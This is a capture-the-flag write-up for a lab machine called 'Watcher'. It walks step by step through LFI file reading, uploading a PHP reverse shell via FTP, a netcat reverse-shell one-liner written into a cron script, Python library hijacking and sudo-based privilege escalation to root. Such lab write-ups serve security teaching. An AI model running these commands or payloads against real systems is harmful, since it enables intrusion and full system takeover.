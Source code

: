```yaml
---
layout: default
title : muzec - Watcher Writeup
---
```


![Image](https://imgur.com/08smS1S.png)

We always start with an nmap scan.....


```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Thu Apr 15 06:03:39 2021 as: nmap -sC -sV -oA nmap 10.10.90.237
Nmap scan report for 10.10.90.237
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
|_  256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 15 06:05:02 2021 -- 1 IP address (1 host up) scanned in 83.77 seconds
```

3 open ports FTP,SSH and HTTP checking FTP first.

![Image](https://imgur.com/ImSUWk4.png)

Yea no anonymous logins allow now let hit port HTTP which is 80.

![Image](https://imgur.com/mUYTadA.png)

Always check robots.txt.

![Image](https://imgur.com/3VzPEgq.png)

Cool we got the 1st flag and some secret txt file again.

![Image](https://imgur.com/PblVGi2.png)

Yes i know i hide the flag let move on with the secret txt file but when i try to check the ` /secret_file_do_not_read.txt` 403 forbidden ahhhh why ok let go back to the homepage.

![image](https://imgur.com/anTQpT3.png)

Back to the homepage clicking on one of the post i notice the URL was looking strange probably is it vulnerable to LFI or RCE come on let give it a try.

![Image](https://imgur.com/u2oFx7W.png)

And boom we got some LFI vulnerability in the house.

![Image](https://imgur.com/5hOyJ2z.png)

Now let try reading the `/secret_file_do_not_read.txt` with the LFI.

![Image](https://imgur.com/51uImFe.png)

Cool some FTP details now let hit FTP back.

![Image](https://imgur.com/mKWJJfy.png)

Boom flag2 retrieve now let check the files folder but it was empty let try to put some reverse shell in it and give it permission `chmod 777 rev.php`.

![image](https://imgur.com/gvJCdNP.png)

`Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.`

So we know the folder our reverse shell is save in now let start an ncat listener `nc -nvlp 4444` .

![Image](https://imgur.com/IEzHytf.png)

Accessing the reverse shell path give us back a shell back to our terminal.

![Image](https://imgur.com/rgy1EQN.png)

![Image](https://imgur.com/FGQMjhk.png)

Spawing a TTY shell you can check out my cheat sheet here [Spawing TTY Shell](https://muzec0318.github.io/posts/Ttyshells.html) .

![image](https://imgur.com/RKrs8ra.png)

`python3 -c 'import pty; pty.spawn ("/bin/bash")'`

![image](https://imgur.com/gpi8YcU.png)

And we have flag3 also now let check the home directory but we have no access to any file now let try `sudo -l` .

![Image](https://imgur.com/PyFsw4g.png)

Cool our way to user toby now type `sudo -u toby /bin/sh` and we are toby.

![Image](https://imgur.com/DF9QNZZ.png)

Done with flag4.

![Image](https://imgur.com/QCKSWNF.png)

Cool another note let read it.

![image](https://imgur.com/Yxl0FDY.png)

```
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

![image](https://imgur.com/KioWdR6.png)

Cool we have write permission on the file let echo our reverse shell payload in it `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`  and start our ncat listener and in 1 min we have our shell smiling back to us.

![Image](https://imgur.com/PnnZpB5.png)

A note again cool let check it out fast.

![image](https://imgur.com/VaoWXzd.png)

Cool so i cd to the script directory and yes it something interesting.

![Image](https://imgur.com/fPh0XNi.png)

Going through the script i found out it using the cmd.py module to get command and lucky for us we have write permission to the cmd.py module library which can lead to python library hijacking.

![Image](https://imgur.com/7w5Rhs0.png)

### NOW LET ABUSE IT

```
import subprocess

result = subprocess.run(['/bin/bash'])
```

![Image](https://imgur.com/Yk19jOx.png)

Now let run our sudo command `sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *` and boom we are user Will.

![Image](https://imgur.com/NJN0Pv3.png)

And we are done with the flag6 time to move to root checking the `opt` folder we found a backups folder some base64 strings let try to decode it with cyber chef.

![Image](https://imgur.com/TODF99j.png)

And boom we have root RSA Private key now let save it to a file and give it the `chmod 600 id_rsa` permission.

![Image](https://imgur.com/hshX5dT.png)

And boom flag7 done and we are root box rooted.

![Image](https://imgur.com/iEIZeuD.png)

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
